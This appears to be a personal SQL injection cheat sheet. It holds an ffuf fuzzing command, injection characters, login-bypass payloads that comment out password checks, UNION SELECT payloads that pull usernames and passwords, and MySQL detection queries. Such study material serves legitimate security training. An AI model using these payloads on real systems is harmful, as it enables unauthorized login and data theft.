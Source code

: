 ```shell
ffuf -w ~/opt/wordlists/sqli.txt -u URL -fs ...
```
```sql
'
"
#
;
)
-- -
')-- -
")-- -
```

**ALWAYS TEST AGAINST INPUTS THAT RETURN DATA**

> [!NOTE]  Note
> We may have to use the URL encoded version of the payload. An example of this is when we put our payload directly in the URL 'i.e. HTTP GET request'
> To login as a specific user with SQLi we can't comment out the entire query

## Login Pages
Sometimes queries have () in them to run certain operations before others. If this is the case we'll have to add a close ) to close out the query and make it valid
```sql
Query:
SELECT * FROM logins WHERE (username='admin' AND id > 1) AND password = 'hash';

Payloads: 
admin')-- -
sqli' or id=5)-- -

New Query:
SELECT * FROM logins WHERE (username='admin')-- -' AND id > 1) AND password = 'hash';
SELECT * FROM logins WHERE (username='sqli' or id=5)-- -' AND id > 1) AND password = 'hash';
```

> [!NOTE] Note
> We add `or id=5` for cases we want to login using a specific user ID instead of a username

## Union Select
Attach a second query to the original one with `UNION SELECT`. Access other tables and databases.
The same amount of columns for both tables in the query is required for `UNION SELECT` so adding numbers beside column names will do the trick i.e `username,password,3,4,5`

```sql
SELECT * from products UNION SELECT username, password, 3, 4 from logins;
```
```sql
UNION SELECT 1,@@version,3,4-- -
UNION SELECT 1,user(),3,4-- -
```

MySQL detection
```sql
select @@version
SELECT POW(1,1) 
SELECT SLEEP(5)
```
